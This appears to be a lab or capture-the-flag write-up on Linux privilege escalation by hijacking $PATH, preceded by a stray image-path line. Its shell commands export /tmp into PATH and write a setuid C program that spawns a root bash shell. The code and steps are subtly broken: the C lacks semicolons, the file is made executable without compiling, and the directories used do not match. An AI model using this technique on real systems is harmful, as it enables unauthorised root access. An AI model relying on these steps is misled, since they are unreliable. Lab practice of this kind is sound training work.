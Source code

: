 ```

![img](/assets/img/lpe58.png)

We have given executable rights to our copy of /bin/bash, please note that at this point it will run with our user’s right. What makes a privilege escalation possible within this context is that the path script runs with root privileges.

![img](/assets/img/lpe59.png)


1. What is the odd folder you have write access for?

/home/murdoch

```
cd home
ls -la
```

2. Exploit the $PATH vulnerability to read the content of the flag6.txt file.

#### Hint: 
You can add the writable directory to your user's PATH and create a file named "thm" that the "./test" executable will read. The "thm" file can simply be a "cat" command that will read the flag file.

```
echo $PATH
```

```
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

```
cd murdoch
nano thm.py
export PATH=/tmp:$PATH
echo $PATH
nano thm

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {
   setuid(0)
   setgid(0)
   system("/bin/bash -p");
   return 0;
}

chmod +x thm
cd /tmp
chmod +s thm
cat /tmp/thm
